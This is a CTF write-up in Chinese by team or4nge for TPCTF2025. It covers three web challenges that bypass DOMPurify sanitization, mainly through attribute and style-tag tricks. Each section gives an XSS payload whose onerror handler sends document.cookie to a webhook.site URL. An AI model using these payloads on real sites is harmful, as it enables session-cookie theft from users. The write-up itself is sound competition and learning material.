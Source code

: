 ```yaml
---
title: tpctf2025
titleTemplate: ':title | Writeups - or4nge'
layout: doc
---
```


# TPCTF2025 Writeup by or4nge

::: info
**Rank: 21**
:::

## Web

### baby layout

对提交的 `layout` 以及 `content` 使用 DOMPurify 进行 sanitize 后使用 `content` 替换 `layout` 中的 `content`，因为 sanitize 默认会 block 掉一些 tag，使用 img 的 attr 来 XSS：

```HTML
layout:
<img src='{{content}}'>

content:
" onerror="fetch('https://webhook.site/c09f0e76-a00d-465b-a5f9-79bc339020ba/?a='+document.cookie)
```

![img](https://or4nge-images.zeroc0077.cn/writeups/2025/tpctf2025/img_0.png)

### safe layout

在 sanitize 中将 `ALLOWED_ATTR` 清空了，无法在 tag 里面定义 attr 了，但实际上 DOMPurify 还有两个配置：`ALLOW_ARIA_ATTR` 以及 `ALLOW_DATA_ATTR` 这里没有注意，所以可以使用如下 payload 进行 XSS：

```HTML
layout:
<img aria-c='{{content}}'>

content:
" src="" onerror="fetch('https://webhook.site/8efa625c-8859-4655-81ea-76438baa22c0/?a='+document.cookie)
```

![img](https://or4nge-images.zeroc0077.cn/writeups/2025/tpctf2025/img_1.png)

### safe layout revenge

将上面提到的两个配置清空了，可以将 `{{content}}` 放在 `<` 与 tag 之间防止 DOMPurify 解析为一个元素，然后替换为空即可：

```HTML
layout:
x<style><{{content}}/style><{{content}}img src=x onerror=fetch('https://webhook.site/4e9fdccb-a86c-490c-981f-31f6af3035c3/?a='+document.cookie)></style>
```
